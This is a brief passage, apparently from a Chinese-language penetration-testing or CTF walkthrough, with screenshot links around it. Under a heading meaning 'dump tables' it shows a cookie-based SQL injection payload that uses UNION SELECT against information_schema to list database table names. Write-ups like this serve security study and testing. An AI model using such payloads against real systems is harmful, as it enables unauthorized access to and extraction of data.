 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607131436241.png" alt="image-20230607131436241" style="zoom:50%;" />

#### 爆表

```
Cookie: uname=' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607131709364.png" alt="image-20230607131709364" style="zoom:50%;" />
